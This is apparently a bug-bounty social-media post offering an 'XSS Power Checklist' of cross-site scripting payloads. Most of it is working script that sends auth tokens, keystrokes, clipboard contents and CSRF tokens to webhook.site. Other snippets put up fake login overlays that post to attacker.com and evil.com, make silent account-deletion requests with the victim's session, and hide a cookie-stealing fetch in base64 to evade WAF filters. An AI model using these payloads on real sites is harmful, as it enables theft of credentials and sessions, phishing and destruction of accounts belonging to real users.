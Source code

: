 🔥 Masterclass XSS Exploits — Go Beyond Cookies
#XSS #BugBounty #WebSecurity #CyberSec #cybersecplayground

Most beginners stop at alert(document.cookie)…
But real hunters go further! Here’s your XSS Power Checklist to escalate from a basic alert to full-blown pwnage:

### 1. Steal Tokens from localStorage / sessionStorage
Modern apps store JWTs or auth tokens in local/session storage—not cookies. If accessible, that’s a goldmine!
```
<script>
fetch("https://webhook.site/YOUR-ID?ls=" + localStorage.getItem("authToken"))
</script>
```

Try different key names like:
access_token, jwt, session_id, refreshToken

### 2. Fake UI / DOM Hijacking for Phishing
Trick users into interacting with fake forms or buttons. This works even if the page looks legit.
```
<script>
document.body.innerHTML = `
<h2>Session Expired</h2>
<form action="https://attacker.com"><input name="user" value="grabbed"></form>`;
</script>
```

Bonus: Full-screen phishing via iframe
```
<iframe src="https://evil.com/login.html" width="100%" height="100%"></iframe>
```
### 3. Keylogger Injection
Monitor what the victim types—great for grabbing usernames, passwords, or search terms:
```
<script>
document.onkeypress = e => {
  fetch('https://webhook.site/YOUR-ID?key=' + e.key);
}
</script>
```

### 4. Session Riding via Authenticated Requests
Even if you can’t steal cookies, you can abuse the victim’s session silently:
```
<script>
fetch("/api/delete-account", {
  method: "POST",
  credentials: "include"
});
</script>
```
Use for: account deletion, setting changes, sending messages, etc.

### 5. Clipboard Access (Yes, You Can)
Try stealing copied data—passwords, credit card numbers, copied API keys…
```
<script>
navigator.clipboard.readText().then(text => {
  fetch('https://webhook.site/YOUR-ID?clip=' + encodeURIComponent(text));
});
</script>
```
Note: May require user interaction.

### 6. Exfiltrate CSRF Tokens from the DOM
Sometimes CSRF tokens are hidden in forms or meta tags.
```
<script>
fetch("https://webhook.site/YOUR-ID?csrf=" + document.querySelector('[name=csrf_token]').value);
</script>
```

### 7. JavaScript Prototype Pollution
Modify base JS objects. This can break site functionality or even open up logic flaws:
```
<script>
Object.prototype.pwned = true;
</script>
```
Useful to combine with other bugs like logic bypasses.

### ⚡️ Bonus: Obfuscation for WAF Evasion
Encode your payloads to sneak past filters:
```
<script>
eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL3lvdXItaWQ/bD0nICsgZG9jdW1lbnQuY29va2llKTs='))
</script>
```
This decodes and runs the actual malicious JS.

⸻

### ✅ TL;DR - Don’t Stop at Cookies. Explore:
   `• Tokens in JS Storage`
 
   `• DOM Manipulation`
 
   `• Phishing via UI`
 
   `• Silent session abuse`
 
   `• Clipboard & CSRF grabs`
 
   `• Prototype hijacks`
 
   `• Obfuscated bypasses`

Follow [@cybersecplayground](https://t.me/cybersecplayground) for real-world hacking techniques, 0-days, tools, and advanced bug bounty content—daily!

#InfoSec #RedTeam #WebAppHacking #EthicalHacking #TelegramCyberSecurity
